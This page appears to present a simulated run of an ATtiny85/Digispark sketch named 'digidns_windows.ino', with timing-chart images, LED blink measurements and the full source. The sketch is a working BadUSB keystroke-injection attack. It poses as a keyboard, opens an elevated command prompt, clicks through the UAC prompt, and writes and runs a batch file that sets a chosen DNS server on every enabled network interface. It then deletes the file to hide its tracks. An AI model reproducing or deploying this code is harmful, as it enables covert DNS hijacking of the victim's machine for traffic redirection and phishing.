
The sketch below on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 5.69 s.
Timing chart, 0 to 8.6 s (numbered marks = the images above):


The sketch:

digidns_windows.ino
```cpp
#include "DigiKeyboard.h"

#define DNS_SERVER "8.8.8.8"
#define DELAY 500

void setup()
{
    // Setup LED
    pinMode(0, OUTPUT); // LED on model B
    pinMode(1, OUTPUT); // LED on model A
    digitalWrite(0, HIGH);
    digitalWrite(1, HIGH);

    // Run the hack
    poison();
}

void poison()
{
    // Windows Key + R to open Run
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(DELAY*2);

    // Open the cmd as administrator
    DigiKeyboard.print("cmd");
    DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT + MOD_SHIFT_LEFT);
    DigiKeyboard.delay(DELAY*2);
    DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
    DigiKeyboard.delay(DELAY);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(DELAY);

    // Create the .bat file and open it with notepad
    DigiKeyboard.println("echo. > poison.bat");
    DigiKeyboard.println("notepad poison.bat");
    delay(DELAY);

    // Write the script
    DigiKeyboard.println("@ECHO OFF");
    DigiKeyboard.println("set DNS=" DNS_SERVER);
    DigiKeyboard.println("for /f \"tokens=1,2,3*\" %%i in ('netsh int show interface') do (");
    DigiKeyboard.println("  if %%i equ Enabled (");
    DigiKeyboard.println("    netsh int ipv4 set dns name=\"%%l\" static %DNS% primary validate=no");
    DigiKeyboard.println("  )");
    DigiKeyboard.println(")");
    DigiKeyboard.println("ipconfig /flushdns");
    DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);
    DigiKeyboard.delay(DELAY);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(DELAY);

    // Run and delete the script
    DigiKeyboard.println("poison.bat");
    delay(DELAY);
    DigiKeyboard.println("del poison.bat");

    // Close the console
    DigiKeyboard.println("exit");
}


void loop()
{
    // Blink the LED quickly after job done
    digitalWrite(0, HIGH);
    digitalWrite(1, HIGH);
    delay(200);
    digitalWrite(0, LOW);
    digitalWrite(1, LOW);
    delay(200);
}
```

Measured:
- by itself, PB0 (LED_on_model_B), PB1 (LED_on_model_A): alternates HIGH for 0.20 s and LOW for 0.20 s
